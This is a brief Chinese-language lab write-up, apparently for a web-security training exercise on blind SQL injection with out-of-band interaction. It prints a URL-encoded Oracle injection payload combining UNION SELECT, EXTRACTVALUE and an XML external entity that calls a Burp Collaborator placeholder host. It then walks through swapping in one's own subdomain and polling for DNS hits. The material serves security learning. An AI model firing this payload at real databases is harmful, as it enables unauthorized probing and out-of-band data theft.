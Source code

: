 ![image-20240910130633602](./imgs/image-20240910130633602.png)

`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

其中EXTRACTVALUE（）是对XML文档进行查询和修改的函数。我们需要找到自己的COLLABORATOR子域名替换掉上面的`BURP-COLLABORATOR-SUBDOMAIN`。在burpsuite左上角的 collaborator c，注意这里只有bp professional可以打开。打开后点击copy to clipboard复制自己的collaborator子域名并进行替换。点击send，然后点击poll now，使用collaborator server检索DNS交互信息，我们可以发现接收地IP，说明DNS查询成功。
